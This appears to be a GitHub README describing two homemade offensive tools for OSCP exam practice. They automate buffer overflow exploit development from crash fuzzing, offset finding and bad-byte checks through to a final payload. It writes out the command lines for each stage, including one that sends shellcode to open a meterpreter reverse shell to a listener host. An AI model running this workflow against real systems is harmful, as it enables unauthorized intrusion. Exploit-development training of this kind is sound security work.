 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

The complete process looked more like this:

***** I sent a buffer of "TRUN ." + 3000 A's, resulting in a crash...
./exploitshadow.py 1 3000 10.0.0.10 9999
***** Since that crashed it, I had the tool generate a pattern of 3000 characters and sent that next...
./exploitshadow.py 2 3000 10.0.0.10 9999
***** At this point, the EIP register had the hex values 396F4338 inside it, so now I just need to find that offset next...
./exploitshadow.py 5 3000 396F4338
***** Now I know that the offset is 2006, because that's what mode 5 gives me as output, so now I sent a buffer with all byte values 0-255...
./exploitshadow.py 3 2006 10.0.0.10 9999
***** Keep doing that and using badbytecheck.py to eliminate bad bytes/chars. When you have them all eliminated, and you find a proper jump address, send payload...
./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!
